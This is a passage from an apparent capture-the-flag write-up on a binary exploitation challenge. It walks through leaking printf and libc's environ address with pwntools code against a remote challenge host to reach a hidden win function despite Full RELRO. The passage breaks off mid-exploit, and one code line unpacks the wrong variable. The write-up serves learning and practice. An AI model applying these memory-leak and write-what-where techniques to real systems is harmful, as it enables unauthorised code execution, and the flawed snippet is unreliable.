 So we can call this ```hidden_resources``` function and get [ret2win](https://int0x33.medium.com/day-1-rop-emporium-ret2win-64bit-bb0d1893a3b0).

According the information we have so far we can:
1. Leak ```libc``` address with ```printf``` leak address ( ```printf("[%p]\n",printf);``` - from ```form``` function).
2. [write-what-where](https://cwe.mitre.org/data/definitions/123.html) from ```plant``` function - ```*puVar1 = uVar2;```.
3. ```hidden_resources``` function.

As we seen we have [Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack) so we need to find another technique - according the challenge name we can get the hint that we need to get the ```environ``` - which is a variable in libc that stores the address of a part of the stack. If we have a libc base address, we can easily get where the environ variable is.

If we can get the address of ```environ```  this will give us a stack address. Since the offsets will always be the same, we can get our ```rbp + 0x8``` address just using the stack address that we glean.

So let's write it.

First, Leak address of ```printf```:
```python
from pwn import *

binary = context.binary = ELF('./environment')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30111)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        p = process(binary.path)

#leak printf address
for _ in range(5):
	p.sendlineafter('>','2')
	p.sendlineafter('>','1')
	p.sendlineafter('>','n')

data=p.recvuntil(']').decode('utf-8').split('[')[-1].split(']')[0] #.strip('\x1b[0m[')
libc_leak_printf=int(data,16)
log.info("printf leak address: " + hex(libc_leak_printf))
libc.address = libc_leak_printf - libc.sym.printf
log.info("libc.address: " + hex(libc.address))
```

Next, Get the address of ```environ```:
```python
#leak envior address
for _ in range(5):
        p.sendlineafter('>','2')
        p.sendlineafter('>','1')
        p.sendlineafter('>','n')

p.sendlineafter('> ',hex(libc.sym.environ))
p.recv(4) # ANSI color  
data = p.recv(6)
environ = u64(_ + b'\0\0')
log.info('environ address: ' + hex(environ))
```
